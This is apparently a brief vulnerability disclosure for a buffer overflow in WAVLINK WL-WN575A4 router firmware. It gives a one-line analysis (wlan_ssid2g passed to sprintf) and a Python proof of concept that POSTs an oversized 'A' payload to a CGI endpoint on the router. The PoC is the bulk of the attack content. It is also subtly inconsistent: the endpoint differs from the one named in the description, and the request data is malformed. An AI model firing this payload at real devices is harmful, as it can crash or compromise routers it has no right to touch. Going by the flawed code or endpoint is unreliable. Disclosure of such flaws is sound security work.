

# buffer overflow

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a buffer overflow in adm.cgi/set_wzdap

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:




get value from wlan_ssid2g ,and call sprintf, cause buff overflow


## POC
```
url = "http://192.168.0.1/cgi-bin/set_sys_adm.cgi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={ 'page=wzdap&wlan_ssid2g=' + payload})
``` 
